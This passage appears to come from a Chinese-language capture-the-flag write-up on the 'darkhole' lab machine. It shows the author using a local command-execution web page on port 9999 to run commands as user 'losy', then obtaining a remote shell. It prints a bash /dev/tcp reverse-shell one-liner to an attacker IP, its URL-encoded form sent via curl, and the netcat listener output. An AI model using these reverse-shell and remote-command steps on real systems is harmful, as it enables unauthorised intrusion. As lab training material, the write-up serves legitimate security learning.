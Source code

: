     发现执行了很多 `curl "http://127.0.0.1:9999/?cmd=<命令>"`  之类的，估计`9999`端口下是一个能进行`RCE`的页面
    
5. 我们也尝试执行下
    - 先试试`id` ，发现是`losy`的权限
        
        ```python
        jehad@darkhole:~$ curl http://127.0.0.1:9999/?cmd=id
        Parameter GET['cmd']uid=1002(losy) gid=1002(losy) groups=1002(losy)
        ```
        
6. 获得`losy`用户的权限
    - 跟着反弹shell命令
        
        因为靶机的`nc`没有`-e`参数，只能通过其他方式来反弹`shell`
        
        ```python
        # 通过shell
        bash -c 'bash -i >& /dev/tcp/192.168.75.151/1234 0>&1'
        ```
        
    - 将其进行URl编码
        
        ```python
        bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.75.151%2f1234+0%3e%261%27
        ```
        
    - 构建命令
        
        ```python
        curl "http://127.0.0.1:9999/?cmd=bash+-c+%27bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.75.151%2f1234+0%3e%261%27"
        ```
        
    - `kali` 开启监听，执行命令
        
        ```python
        nc -lvp 1234
        listening on [any] 1234 ...
        192.168.75.185: inverse host lookup failed: Unknown host
        connect to [192.168.75.151] from (UNKNOWN) [192.168.75.185] 33342
        bash: cannot set terminal process group (1215): Inappropriate ioctl for device
        bash: no job control in this shell
        losy@darkhole:/opt/web$ 
        ```
        
        获得`losy`的`shell`！！！
        

## 提权 - losy用户

1. 和之前一样，我们先查看`bash`历史记录
    
    ![image.png](image%2080.png)
    